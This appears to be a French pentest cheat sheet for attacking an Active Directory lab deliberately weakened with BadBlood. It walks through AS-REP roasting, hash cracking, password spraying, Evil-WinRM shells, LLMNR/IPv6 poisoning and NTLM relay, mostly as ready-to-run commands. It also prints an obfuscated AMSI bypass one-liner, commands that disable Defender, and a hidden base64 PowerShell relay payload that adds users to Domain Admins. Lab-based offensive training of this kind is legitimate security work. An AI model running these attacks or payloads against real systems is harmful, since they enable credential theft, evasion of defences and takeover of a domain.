<h1 align="center"><strong>AUDIT DE SÉCURITÉ WINDOWS AD</strong></h1>


<br>

<p align="center">
  
</p>
<!-- ça servait à rien de le faire gros malin -->


<br>

> [!IMPORTANT]
> Lors d'un audit ou d'un pentest, penser à toujours documenter les informations récoltées au fur et à mesure afin d'éviter les oublis (en vue du rapport pour le client), mais également si des modifications sont apportées (créations d'utilisateurs, modification des droits pour éléver ses privilèges...) il faut pouvoir être capable de rendre les choses dans leur état initial. 


---

<br>

# __MISE EN PLACE DE BADBLOOD__


BadBlood permet de rendre l'Active Directory vulnérable c'est un script qui génère de nombreux groupes et utilisateurs avec de mauvaises permissions ainsi que des paramètres générant des failles exploitables comme c'est souvent le cas en entreprise.

Il est utilisé pour tester BloodHound et s’entraîner à l’attaque/défense AD en simulant des scénarios réels sans impacter un vrai environnement de production.

Lien vers la [page GitHub du créateur de BadBlood](https://github.com/davidprowe/BadBlood)


<br>


> [!WARNING]
> ⚠️ Ne sourtout pas utiliser ce script sur un DC d'entreprise (dommages non réversibles).


<br>

Téléchager et exécuter le script
```Powershell
# clone the repo
git clone https://github.com/davidprowe/badblood.git
#Run Invoke-badblood.ps1
./badblood/invoke-badblood.ps1
```


---

<br>


# __SCAN PORTS & SERVICES__

```sh
sudo nmap -sV 10.0.0.1
```


---

<br>


# __PING CASTLE__

> Outils : PingCastle <br>
> ATT&CK Tactic : Discovery <br>
> ATT&CK Technique : T1087 – Account Discovery <br>
> Sub-technique : T1087.002 – Domain Account

<br>

* Ping Castle permet de faire un état de santé général de l'Active Directory.
* Cet outils est basé sur les critères de sécurités comme CIS Benchmarks, ANSSI
* Il génère un rapport détallé en 4 blocs distincts.
* Lien vers le [téléchargement de PingCastle](https://www.pingcastle.com/download/)

<br>


Un score est indiqué pour chacune des 4 parties, trust est à 0 car il n'y a pas de DC de réplication.



<br>


| Catégorie            | Description                                                     |
|----------------------|-----------------------------------------------------------------|
| *Stale Objects*        | Operations related to inactive or obsolete user or computer objects |
| *Trusts*               | Connections between two Active Directory domains or forests     |
| *Privileged Accounts*  | Administrators and highly privileged accounts in Active Directory |
| *Anomalies*            | Specific security control points and abnormal behaviors         |


<br>


Dans la partie **Stale Objects** on retrouve une liste de comptes qui ne requièrent pas de pré-authentification Kerberos


<br>

On peut aussi voir un compte administrateur qui ne nécéssite pas de pré-authentification Kerberos


<br>

Vérifer les comptes (Ordinateurs et Utilisateurs) qui ne nécéssitent pas de pré-authetification Kerberos
```powershell
Get-ADObject -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=4194304)"
```


---

<br>


<h2 align="center">KERBEROS PROTOCOL</h2>


<p align="center"></p>

<br>

---

<br>


# __STEAL KERBEROS TICKETS__

> Outils : Impacket (linux), Rubeus (windows) <br>
> ATT&CK Tactic : Credential Access <br>
> ATT&CK Technique ID: T1558.001

<br>

La vulnérabilité **AS-REP Roasting** consite à récupérer un ticket TGT ou Golden Ticket

* Les **Ticket Granting Tickets** sont fournis par le **Key Distribution Center** (KDC), mais obtenus de façon malicieuse on les appelle **Golden Tiket**.
* Certains programmes et applications supportent l'authentification LDAP que si la préauthentification est désactivée sur le compte de service.
* Si la pré-authentification est désactivée sur un compte, n'importe qui peut réclamer un ticket au nom de l'utilisateur.
* Impacket permet de récupérer le message **AS-REP** (Authentication Service Response) d'un utilisateur avec le hash kerberos (etype 23 – RC4-HMAC).

<br>

> [!NOTE] 
> Le mot de passe de ce compte Administrateur (récupéré avec PingCastle) a été changé manuellement dans l'AD car le script BadBlood génère des comptes expirés, mais dans un cas réel ces comptes sont actifs (souvent des comptes dédiés à des services).

<br>

__Impacket__

Fichier contenant les noms d'utilisateurs trouvés depuis PingCastle avec la préauth Kerberos désactivée
```sh
impacket-GetNPUsers tssr-cyber.fr/ -no-pass -usersfile usr.txt
```


<br>

Cibler un seul compte
```sh
impacket-GetNPUsers TSSR-CYBER.FR/KATRINA_RUTLEDGE -no-pass
```



Ajouter le hash dans un fichier
```sh
printf '%s' '$krb5asrep$23$COLETTE_MCKEE@TSSR-CYBER.FR:<hash>' > COLETTEHASH.txt 
```

<br>

| Code d’erreur Kerberos            | Statut de l’utilisateur                                   |
|---------------------------------:|------------------------------------------------------------|
| *KDC_ERR_C_PRINCIPAL_UNKNOWN*      | Le nom d’utilisateur n’existe pas                          |
| *KDC_ERR_PREAUTH_REQUIRED*         | Le nom d’utilisateur est valide et le compte est activé    |
| *KDC_ERR_CLIENT_REVOKED*           | L’utilisateur existe, mais le compte est désactivé ou bloqué |
| *KDC_ERR_KEY_EXPIRED*             | Password expiré, changé le pswd pur reset   |


---

<br>


# __OFFLINE CRAKING__


> Outils : hashcat, JhonTheRipper <br>
> ATT&CK Tactic :  Password Cracking <br>
> ATT&CK Technique : T1110.002

<br>

Après avoir récupéré un hash, créer un fichier (ici asrep.hash) qui contient le hash AS-REP obtenu avec impacket : `$krb5asrep$23$KATRINA_RUTLEDGE@CYBER-MANAGEMENT.FR:<hash>`.

Télécharger un fichier de règle
```sh
sudo wget https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/refs/heads/master/OneRuleToRuleThemAll.rule -O /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule
```

<br>


### Kerberos hash

`-m 18200` → Kerberos 5, etype 23, AS-REP `$krb5asrep$23$`
```sh
sudo hashcat -m 18200 -a 0 asrep.hash /usr/share/wordlists/rockyou.txt
```


<br>

Rajouter un fichier de règle si besoin
```sh
sudo hashcat -m 18200 -a 0 berniepatehash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```


<br>

### NTLMv1 hash

`-m 1000` → NTLMv1
```sh
sudo hashcat -m 1000 -a 0 <hashfile.txt> /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

<br>

### NTLMv2 hash

Créer le fichier avec le hash (permet d'éviter l'erreur 'Token encoding exception')
```sh
printf '%s' username::DOMAIN:challenge:NTLMv2_response+blob
```

`-m 5600` → NTLMv2
```sh
sudo hashcat -m 5600 -a 0 <hashfile.txt> /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```


### DCC2 hash

Format DCC2 attendu par Hashcat -m 2100
```
$DCC2$10240#username#hash
```

### Mettre plusieurs hashs dans un fichier
```sh
hashcat -m 2100 hashes.txt wordlist.txt -r rules/best64.rule
```

Exemple avec attaque brute-force (si mot de passe court)
```sh
hashcat -m 2100 hashes.txt ?a?a?a?a?a?a?a?a
```


---

<br>


# __DUMPER LES OBJETS LDAP__

> Outils : ldapdomaindum <br>
> ATT&CK Tactic : Discovery <br>
> ATT&CK Technique : T1087 – Account Discovery

<br>

Les informations collectées sont similaires à Ping Castle, mais l'outils est rapide et peut toujours être utile lors d'un Audit AD.

L'outil **ldapdomaindump** permet de :
  * Dumper les utilisateurs AD
  * Dumper les groupes AD
  * Dumper la Domain policy
  * Dumper les computers AD
  * Dumper les OS Version computers AD

<br>

> [!NOTE]
> Comme SharpHound, ldapdomaindump n'a pas besoins d'être effectué avec un compte admin, un utilisateur standard suffit pour intéroger LDAP.
   
<br>

Dumper les objets LDAP de l'AD et afficher le rapport utilisateur (`-o`va créer un dossier de destination)
```sh
ldapdomaindump -u 'TSSR-CYBER.FR\KATRINA_RUTLEDGE' -p Hacker1 10.0.0.1 -o LDAP-DUMP
```
```sh
firefox domain_users.html  
```


<br>

Domain policy rapport




---

<br>


# __ACCOUNTS THAT RESPOND TO KRB REQUESTS__

> Outil : Kerbrute <br>
> ATT&CK Tactic: Discovery <br>
> ATT&CK Technique : T1087 – Account Discovery

<br>

Énumérer les comptes qui répondent aux requêtes **Kerberos (AS-REQ)** peut permettre d'écarter :

* compte désactivé
* compte verrouillé
* compte sans mot de passe Kerberos valide
* compte “logon interdit”
* compte machine / service
* compte protégé (Protected Users, smartcard required, etc.)

<br>

```sh
./kerbrute_linux_amd64 userenum -d TSSR-CYBER.FR /home/toto/Bureau/domnames.txt -v
```


---

<br>


# __FIND USERS & GROUPS SID__

bruteforce the Windows SID through [MS-LSAT] MSRPC Interface 

> Outils : Impacket-lookupsid


```sh
impacket-lookupsid KATRINA_RUTLEDGE:Hacker1@10.0.0.1
```


---

<br>


# __AD ACCOUNTS WITH SAME PASSWORD__

> Outil : SprayHound <br>
> ATT&CK Tactic : Credential Access <br>
> ATT&CK Technique : Brute Force <br>
> ATT&CK Sub-technique : T1110.003 – Password Spraying

<br>

* Tester un mot de passe avec un utilisateur valide de l'AD (login + mdp)
* Il est possible d'utiliser sprayhound sans compte valide
* Retrouver plus d'infos sur [la page GitHib SprayHound](https://github.com/Hackndo/sprayhound)

<br>


> [!WARNING]
> * SprayHound obtiendra la password policy avec un compte valide.
> * Sans compte valide, pas de découverte de password policy donc attention au blocage de comptes.

```sh
sprayhound -d TSSR-CYBER.FR -dc 10.0.0.1 -lu a.leration -lp 'Tssrcyber1234' -p 'Tssrcyber1234' -v
```
* `-lu` 'login ldap user name'
* `-lp` 'paswd ldap user'
* `-p` 'pswd to test'

<br>


---

<br>


# __WINRM SHELL__

> Outils : Evil-WinRM <br>
> ATT&CK Tactic : Lateral Movement (TA0008) <br>
> ATT&CK Technique : Remote Services — T1021 <br>
> ATT&CK Sub-techniques : Windows Remote Management (WinRM) — T1021.006 

<br>

Établir une session distante sur un hôte Windows à l’aide d’identifiants volés , permettant l’obtention d’un shell distant.  <br>
Le compte de la machine ciblée doit faire partie du groupe `Administrateurs` et WinRM doit être activé sur l’hôte.

<br>

### L'utilisateur doit être dans le groupe admin du domaine
```sh
sudo evil-winrm -i 10.0.0.1 -u '<UserName>@<Domain-Name>' -p '<password>'
```


### Comptes admin locaux 

Vérifier sur quelles machines trouver des utlisateurs du domaine qui sont admin de leur machines
```powershell
$pcs = Get-ADComputer -Filter * | Select -ExpandProperty Name
Invoke-Command -ComputerName $pcs -ScriptBlock { Get-LocalGroupMember Administrateurs }
```


### Afficher l'IP des partages réseau 
```powershell
Get-PSDrive -PSProvider FileSystem
```

### Afficher la description d'un compte
```powershell
Get-ADUser -Filter * -Properties * | select name, description | fl
```


### Afficher les groupes auxquel cet utilisateur appartient
```powershell
Get-ADPrincipalGroupMembership TAMMIE_FOWLER | Select Name
```




### Extraire une liste d'utilisateurs de l'AD (Besoin module RSAT ADDS-LDT)
```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName | Out-File -Encoding UTF8 C:\Users\Administrateur\Desktop\domusers.txt
```


### Extraire une liste d'utilisateurs de l'AD via ADSI (Pas besoin de module RSAT)
```powershell
([adsisearcher]"(&(objectCategory=person)(objectClass=user))").FindAll() |
ForEach-Object { $_.Properties.samaccountname } |
Out-File -Encoding UTF8 "C:\Users\v.tyme\Desktop\domusers.txt"
```


### Transférer la liste du DC vers la Kali
```sh
scp C:\Users\Administrateur\Desktop\domusers.txt totol@10.0.0.51:/home/toto/Bureau/
```

> [!IMPORTANT]
> Ici je donne l'exemple d'une extraction de liste d'utilisateurs mais dans un autre contexte un attaquant pourrait aussi désactiver Defender et exécuter Sharpound (voir plus bas) puis tranférer le zip Sharpound vers sa machine d'attaque afin d'avoir une vision complète de l'AD bien qu'à ce stade l'Active Directory soit déjà entièrement compromis.

---

### Voir la password policy
```powershell
Get-ADDefaultDomainPasswordPolicy
```

| Paramètre                     | Description |
|------------------------------|-------------|
| -LockoutThreshold            | Nombre de tentatives de mdp avant que le compye soit vérouillé |
| -LockoutObservationWindow   | durée pendant laquelle les échecs de connexion sont comptabilisés avant remise à zéro du compteur. |
| -LockoutDuration            | durée pendant laquelle le compte reste verrouillé après avoir atteint le seuil de verrouillage. |

<br>

### Ne jamais bloquer de compte avec des faux mots de passe
```powershell
Set-ADDefaultDomainPasswordPolicy -LockoutThreshold 0
```

---

### Afficher les groupes contenant la string "admin"
```powershell
Get-ADGroup -Filter 'Name -like "admin*"' | Select name
```

### Ajouter un utilisateur dans le groupe admin du domaine
```powershell
Add-ADGroupMember -Identity "Admins du domaine" -Members "EDDIE_ROACH"
```

---

### Ajouter du flag DONT_REQ_PREAUTH dans l'attribut userAccountControl (désactive la préauth kerberos)
```powershell
Set-ADUser EDDIE_ROACH -Replace @{userAccountControl = ( (Get-ADUser EDDIE_ROACH -Properties userAccountControl).userAccountControl -bor 0x400000 )}
```

### Changer la password d'un utilisateur 
```powershell
Set-ADAccountPassword EDDIE_ROACH -Reset -NewPassword (ConvertTo-SecureString "Password123456" -AsPlainText -Force)
```

### Récupérer son ticket kerberos
```sh
impacket-GetNPUsers TSSR-CYBER.FR/EDDIE_ROACH -no-pass
```

Evilwinrm permet aussi de se connecter avec un hash NTLM (Pass-the-Hash) et de charger des scripts en mémoire pour éviter la détection.


---

<br>


# __CREATE A PASSWORD LIST__


> Outils : crunch, sed, heredoc (EOF), printf, boucles for <br>
> ATT&CK Technique : Credential Access

<br>

## crunch 

Ce programme est installé par défaut, pratique pour créer des variations d'un même mot
```sh
crunch 9 9 -t toto\*%%%% -o tototest.txt
```
* `9` → 1er chiffre caractères min du mdp
* `9` → 2em chiffre caractères max du mdp
* `-t`→ Respectera le masque du pattern indiqué

La liste fera que des mdp de 9 caractères en respectant (`-t`) le masque :
```
[toto][*][0-9999]
```

<br>

| Besoin         | Solution    |
| -------------- |:-----------:|
| Étoile fixe    | `\*`        |
| Position fixe  | `-t`        |
| 0000 → 9999    | `%%%%`      |

<br>

Respectera ce mmasque : [toto][1000-9999][!]
```sh
crunch 9 9  -t Toto%%%%\! | sed -n '1000,9999p' >> Toto-1000-9999-!.txt
```
Donnera :
```
Toto1000!
Toto1001!
Toto1002!
...
```


<br>

### Boucles for & printf 

Le principe des formats printf (%d, %04d, etc.) est le même que dans le language C (les regex suivent des principes similaires).

Va générer une liste avec des nombres de 0 à 9999 
```sh
#!/bin/bash
{
for i in {0..9999}; do
    printf "toto*$i\n"
done
} 
```
donnera :
```
toto*0
toto*1
toto*2
...
```

<br>

Ici `%04d` réserve l'emplacement pour la variable `$i` <br>
`%d` réserve l'emplacement pour la variable et <br>
`04` indique une série de 4 chiffres remplie de zero à gauche
```sh                                                                                                              
#!/bin/bash
{
for i in {0..9999}; do
    printf "toto*%04d\n" "$i"
done

} 
```
donnera :
```
toto*0000
toto*0001
toto*0002
...
```


### Créer une liste avec heredoc

Liste de mots simple (Here document ou heredoc est pratique pour faire du ligne par ligne)
```sh
cat << EOF >> Nord.txt
Lille
Roubaix
Chicorée
Frite
...
EOF
```
End-of-file (EOF) est un marqueur qui indique la fin d'entrée d'un flux.

<br>

### Utiliser `sed`

Afin d'étoffer la liste prédente on créé un fichier d'agrément temporaire :
```sh
sed 's/$/*/' Nord.txt > tmp.txt    # rajoute `*` dans tmp.txt
sed 's/$/@/' Nord.txt >> tmp.txt   # rajoute `@` dans tmp.txt
sed 's/$/\$/' Nord.txt >> tmp.txt  # rajoute `$` dans tmp.txt
```
Explication du 1er exemple : `'s/$/*/'` ajoutera `*` à la fin de chaque ligne 
* `s/` pour substitute
* `$/` Fin de la ligne
* `*/`

Concaténer le fichier tmp.txt dans Nord.txt :
```sh
cat tmp.txt >> Nord.txt
rm tmp.txt
```
Dans liste on retrouvera tous les mots avec ces variations
```
Lille
Lille*
Lille@
Lille$
...
```

Rajouter des chiffres dans la liste créée
```sh
while read -r w; do for i in {0..9999}; do printf "%s%d\n" "$w" "$i"; done; done < Nord.txt >> Nord_num.txt
```

* lit chaque mot de tmpnord.txt
* ajoute 0 → 9999 sans padding
* n’écrase pas la liste existante
* écrit dans tmpnord_num.txt

 %d = pas de zéro à gauche (%4d n’est qu’une largeur, pas une plage).


<br>

| Motif | Signification |
|------|---------------|
| `^` | Début de ligne |
| `$` | Fin de ligne |
| `.` | N’importe quel caractère |
| `*` | 0 ou plusieurs fois l’élément précédent |
| `+` | 1 ou plusieurs fois l’élément précédent |
| `?` | 0 ou 1 fois l’élément précédent |
| `[]` | Ensemble de caractères |
| `[^ ]` | Négation d’un ensemble |
| `{n}` | Exactement n répétitions |
| `{n,m}` | Entre n et m répétitions |
| `s` | Substitution (`s/ancien/nouveau/`) |

<br>

Avec toutes ces possiblités, il est possible de créer facilement de très longues listes de mots de passe ciblées en rapport au contexte souhaité (nom d'entreprise, locations,etc...). Rajouter un fichier de règle de nombres serait pertinent dans ce contexte.


---

<br>


# __AMSI BYPASS__

> ATT&CK Tactic : Defense Evasion (TA0005) <br>
> ATT&CK Technique ID : T1562.001 – Impair Defenses: Disable or Modify Tools <br>
> ATT&CK Technique ID : T1027 – Obfuscated Files or Information <br>
> Outils : amsi.fail, PowerView, PowerUp

<br>


AMSI (AntiMalware Scan Interface) est un ensemble d'API Windows permettant à toute application de s'intégrer à un antivirus (à condition que ce dernier fasse office de fournisseur AMSI). Windows Defender, comme de nombreuses solutions antivirus tierces, joue ce rôle. <br>
En résumé, AMSI sert d'intermédiaire entre une application et un moteur antivirus. Prenons l'exemple de PowerShell : lorsqu'un utilisateur tente d'exécuter du code, PowerShell le soumet à AMSI avant son exécution. Si le moteur antivirus détecte un contenu malveillant, AMSI le signale et PowerShell n'exécute pas le code.

<br>

> [!IMPORTANT]
> L’obfuscation permet de contourner la détection de certaines règles Anti-Virus ou EDR, mais ne permettra pas d'effectuer une commande pour laquelle vous n'avez pas les privilèges requis pour celle-ci.

<br>

### Désactiver Defender, exclusion de "C:\Windows\Temp", exclut les extension .exe et .ps1 
```powershell		
Set-MpPreference -DisableRealtimeMonitoring $true -DisableBehaviorMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -DisablePrivacyMode $true -DisableBlockAtFirstSeen $true -ExclusionExtension "ps1", "exe";Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```


Si vous ne pouvez pas désactiver Defender ou effectuer une exclusion (extension ou chemin) vous n'avaz peut être pas les droits, mais il arrive que certaines commandes soient flaguées comme malveillantes et dans certains cas il est possible d'effectuer un bypass AMSI.


### Obfuscation de la commande précédente :
```powershell
#Matt Graebers Reflection method 
$bncYsK0MlQXwYafCQC=$null;$fR_nvfL="System.$(('Mänä'+'gémè'+'nt').noRMALiZe([cHAR](70)+[ChAr](111+101-101)+[chaR]([byTe]0x72)+[chaR]([bYtE]0x6d)+[Char]([ByTe]0x44)) -replace [CHaR]([BytE]0x5c)+[cHAR]([BYTE]0x70)+[char]([Byte]0x7b)+[CHaR]([BYtE]0x4d)+[cHAR]([byTe]0x6e)+[chaR](125)).$(('Á'+'û'+'t'+'ô'+'m'+'ä'+'t'+'ì'+'ô'+'n').NORmAlIze([cHaR]([Byte]0x46)+[Char](111)+[CHAR]([BYtE]0x72)+[cHaR](109)+[cHAr]([BytE]0x44)) -replace [ChAr](92*4/4)+[cHar](112*19/19)+[CHAr]([bYtE]0x7b)+[cHaR]([bYtE]0x4d)+[CHaR](110+34-34)+[chAR](125)).$([cHAR](65)+[CHaR]([bYTE]0x6d)+[cHaR]([BYTe]0x73)+[CHar](31+74)+[cHaR]([ByTE]0x55)+[chAR]([BYte]0x74)+[chaR](105)+[char](108*9/9)+[CHAR]([ByTe]0x73))";$vjzpibzqpxemahbiucfml="+[cHaR]([bYtE]0x70)+[ChAr]([ByTE]0x68)+[cHar](115*94/94)+[chAr](110*97/97)+[char]([ByTe]0x64)+[cHaR](79+21)+[CHar]([BYTE]0x67)+[CHAr]([bYte]0x7a)+[Char]([Byte]0x68)+[char](46+52)+[CHaR]([BYTE]0x7a)+[ChAr]([BYTE]0x64)+[cHAR](98)+[char]([bYTe]0x6e)+[CHaR](20+87)+[chaR](66+55)+[ChAR]([bYte]0x62)+[chaR]([ByTe]0x73)+[cHAR](118*110/110)+[ChAR](102*56/56)+[Char]([ByTe]0x77)+[cHar](112)";[Threading.Thread]::Sleep(127);[Ref].Assembly.GetType($fR_nvfL).GetField($([cHaR]([Byte]0x61)+[cHAr]([bYTe]0x6d)+[CHAR]([BYte]0x73)+[ChaR](105*91/91)+[CHAR](73+67-67)+[chAR]([BYTe]0x6e)+[CHaR]([BYtE]0x69)+[char]([ByTE]0x74)+[ChAr]([bYte]0x46)+[cHAR]([BytE]0x61)+[CHaR](105*29/29)+[cHaR](108+72-72)+[CHAR]([BYTe]0x65)+[cHAr](100)),"NonPublic,Static").SetValue($bncYsK0MlQXwYafCQC,$true);$ccynxqvpluwhsqrp="+('óx'+'xb'+'âg'+'zy'+'mw'+'zs'+'ín'+'ún'+'rh'+'ûw'+'pf'+'pr'+'qs'+'gd'+'n').normaLIZE([cHAr](4+66)+[cHar]([byTe]0x6f)+[CHaR](114)+[cHAr]([bYtE]0x6d)+[CHar]([Byte]0x44)) -replace [CHar]([BYtE]0x5c)+[CHAR](112*80/80)+[CHAr](65+58)+[cHAR](77+74-74)+[CHaR]([byTe]0x6e)+[ChAr](125)";[Threading.Thread]::Sleep(490)
```


---

<br>


# __INTERCEPT HASHS - AiTM/MiTM__


> Outils : Responder, mitm6  <br>
> ATT&CK Tactic : Adversary-in-the-Middle, Credential Access, Collection <br>
> ATT&CK Technique : T1557 <br>
> ATT&CK Sub-techniques : LLMNR/NBT-NS Poisoning (T1557.001)

<br>

## Responder

Quand une machine Windows cherche une ressource (ex: \\SERVEUR ou http://intranet) et que le DNS ne répond pas ou n’est pas utilisé, elle diffuse une requête locale. Responder se fait alors passer pour la ressource demandée. <br>
Si la machine tente de s’y connecter, elle envoie une authentification NTLM mais responder ne l'expoite pas directement, il capture le challenge/réponse NTLM permettant de d'intercepter le hash au passage.

**LLMNR** (*Link-Local Multicast Name Resolution*) et **NBT-NS** (*NetBIOS Name Service*) sont des composants Microsoft Windows qui servent de méthodes alternatives d'identification d'hôte.

* Responder usurpe des services via MDNS / LLMNR / NBT-NS  / WPAD 
* NTLM peut être amené à utiliser ces protocoles, Responder peut donc les intercepter.
* Il vient se placer entre le client et le “serveur” inexistant (qu'il imite)
* Il peut permettre de forcer une authentification NTLM puis récupère le hash de Kerberos


<br>


Indiquer l'interface sur laquelle on souhaite écouter (celle de la machine d'attaque)
```sh
sudo responder -I eth0 -w
```

<br>

Un test simple pour voir si Responder fonctionne est d'effectuer un ping sur une machine ou un serveur inexistant
```bat
ping FAUXSERVEUR
```
La machine Windows aura bien une réponse au ping pour FAUXSERVEUR.



<br>

* Windows suit cet ordre lors du ping : DNS, LLMNR, NBT-NS
* Comme FAUXSERVEUR n’existe pas en DNS, windows diffuse ensuite les requêtes LLMNR / NBT-NS sur le réseau
* Responder répond “c’est moi FAUXSERVEUR”


En se connectant depuis un navigateur de la machine cliente vers la machine attaquante on peut déclencher un UAC et capturer le hash mais en entreprise il est possible de capturer des hashs de cette façon en fonction de la configuration de plusieurs paramètres différents (pare-feu, règles de parefeu, NTLMv1, NTLMv2...)



__Chemin des logs Responder :__
```
/usr/share/responder/logs
```

<br>

## Mitm6

Mitm6 est un outil d’empoisonnement IPv6, principalement conçu pour les réseaux Active Directory mal configurés en envoyant de faux messages comme 'Router Advertissement' (*RA*) ou en répondant au DNS IPv6 (et parfois DHCPv6). Les postes acceptent ces annonces permmetant d'utiliser l'attaquant comme DNS IPv6, en cherchant un proxy (*WPAD*) ou en s'authentifiant via NTLM vers des services controlés par l'attaquant.

Il sert principalment à provoquer des authentifications NTLM qui sont ensuite capturées par Responder ou relayées par ntlmrelayx, cependant mitm6 capture aussi beaucoup de comptes mahines difficilements exploitables. (+ 120 caractères)


### Installer et Lancer mitm6 

Puis lancer Responder (python3 requis pour mitm6). (on peut cibler juste un serveur, une gareway ou un DC...) 
```sh
sudo apt install mitm6
sudo mitm6 -d <domain.name>
sudo responder -I eth0 
```

Dépannage
```sh
ps aux | grep mitm6
pgrep mitm6
sudo pkill mitm6
```


__*mitm6 agit en amont : il force les machines à parler, là où Responder attend qu’elles parlent.*__


### Ettercap

Ettercap is a network interception tool that performs classic Man-in-the-Middle (MITM) attacks, most commonly via ARP poisoning, allowing an attacker to intercept, analyze, or modify traffic between two hosts on a local network.

MiTM between target and victim

ARP Spoofing
```sh
sudo ettercap -T -i eth0 -M arp:remote /<gateway/DC_IP>// /<victim_IP>//
```
`-T` text mode
`-q` quiet
`-i` eth0 network interface
`-M` arp:remote ARP poisoning MITM

---

<br>


# __RELAY THE HASH__


> Tools: ntlmrelayx, crackmapexec, mitm6, ettercap <br>
> ATT&CK Tactic: Credential Access (also Lateral Movement) <br>
> ATT&CK Technique: Adversary-in-the-Middle (ID: T155) <br>
> Prerequisite : SMB signing disabled on the target (for SMB relay)


<br>

Une authentification NTLM arrive puis elle est rejouée immédiatement vers une autre cible. <br>
Cet outil exploite l’absence de protections (SMB signing, LDAP signing, EPA…) et fonctionne bien avec Mitm6 et Ettercap <br>
ntlmrelayx dispose de nombreux outils 


### Identifier les services SMB vulnerables 
```sh
crackmapexec smb —gen-relay-list smb_targets.txt 192.168.1.0/24
```


### Créer un fichier pour stocker les hashs capturés
```sh
impacket-ntlmrelayx -tf relay.txt -smb2support -of /home/pentest/Bureau/CAPTURED-HASH/hashcaprelay.txt
```


### Ajouter un user dans le groupe admin du domaine

> [!NOTE] 
> Ces commandes sont un exemple de payload pour une élévation de privilège et peuvent être exécutées depuis n'importe quelle machine du domaine par un administrateur.

### Payload example
```bat
net localgroup Administrateurs <Nom user> /add;
net user <Nom user> password /add /domain;
net group "Domain Admins" <Nom user> /add /domain;
net group "Admins du domaine" <Nom user> /add /domain
```

### Convert PowerShell code into Base64-encoded
(⚠️PowerShell -enc requires UTF-16LE, not UTF-8.)
```sh
echo -n 'net localgroup Administrateurs Pentest /add; net group "Domain Admins" Pentest /add /domain' iconv -t UTF-16LE | base64 -w 0
```

### Relayer le hash d'un admin sur une target pour effectuer ces commandes 
```sh
impacket-ntlmrelayx -tf relay.txt -smb2support -c "powershell -nop -w hidden -enc <BASE64_PAYLOAD>" --keep-relaying
```
Powershell:
* `-nop` → NoProfile (don’t load the user’s PowerShell profile)
* `-w hidden` → WindowStyle Hidden (no visible window)
* `-enc` → EncodedCommand (Base64-encoded PowerShell command, UTF-16LE)





### Options de ntlmrelayx

* `-debug` Affiche plus de détails 
* `-smb2support` Active le support smb2
* `-tf targets.txt` Fichiers d'IPs à relayer
* `-c` Commandes à exécutées directement sur le serveur
